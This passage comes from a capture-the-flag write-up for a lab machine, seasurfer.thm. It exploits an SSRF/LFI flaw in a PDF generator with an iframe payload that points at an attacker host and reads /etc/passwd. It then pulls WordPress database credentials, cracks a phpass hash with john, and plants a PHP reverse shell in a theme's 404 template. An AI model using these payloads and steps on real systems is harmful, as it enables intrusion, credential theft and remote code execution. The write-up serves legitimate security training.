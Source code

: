 ```html
<iframe height=3000 src="http://$ATTACKERIP/surf.php?p=file:///etc/passwd">
```

![Pasted image 20220423015026.png](attachments/Pasted%20image%2020220423015026.png)

Great success!

Now that we have a way to read files on the server, on to enumeration. Seeing as the `wkhtmltopdf` command most likely runs as the `www-data` user, we're very limited as to what we can read. However, it's always a good bet to start at the `/var/www/` directory, since there we should have close to full access and very often web application database credentials are hardcoded into the configuration files.

A very common example of such behaviour is **WordPress** that by default has the database credentials input into `wp-config.php` - and as we know, there is an instance of that running on the server. Furthermore, we also found the `/adminer/` directory, where we could log into the `SQL` server.

After a bit of trial, error, blood, and sweat with the `SSRF` -> `LFI` vulnerability, we found the **WordPress** configuration file at `/var/www/wordpress/wp-config.php`:

![Pasted image 20220419130226.png](attachments/Pasted%20image%2020220419130226.png)

Now that we have the database credentials, let's log in via the previously found **Adminer** panel at `http://seasurfer.thm/adminer/`:

![](attachments/Pasted%20image%2020220617151534.png)

We have two options here - Either add a new admin user to **WordPress**, or try to crack the existing admin's password. Since the password appears to be `phpass` hashed, which is a very weak algorithm, let's try option 2: cracking.

![Pasted image 20220419132822.png](attachments/Pasted%20image%2020220419132822.png)

```zsh
lassi@kali:~$ echo '$P$BuCryp52<redacted>/' > kyle_wp.hash

lassi@kali:~$ john -w=/usr/share/wordlists/rockyou.txt kyle_wp.hash
...
<redacted>       (?)     
1g 0:00:00:08 DONE (2022-04-19 13:31) 0.1226g/s 61534p/s 61534c/s 61534C/s jess0107..jello33
Use the "--show --format=phpass" options to display all of the cracked passwords reliably
Session completed.
```

It took us a whopping 8 seconds, and our **Kali** machine isn't even that beefy! **Kyle** should really use a password manager. In any case, now that we have the credentials, let's log in to **WordPress** via the default `/wp-admin` endpoint:

![Pasted image 20220419133823.png](attachments/Pasted%20image%2020220419133823.png)


Instead of defacing the website or doing anything nasty to their customers, let's get a reverse shell going. **WordPress** is almost notorius for it's (admin) **RCE** capability by default. Some people use `metasploit` for this, but we'll do it manually by uploading the classic **PentestMonkey PHP reverse shell** to the `404` page via **Appearance -> Theme File Editor -> 404 Template**. Let's save and visit any non-existing page, such as `http://seasurfer.thm/wowwhatagreatbox` to activate the reverse shell in the `404` template:
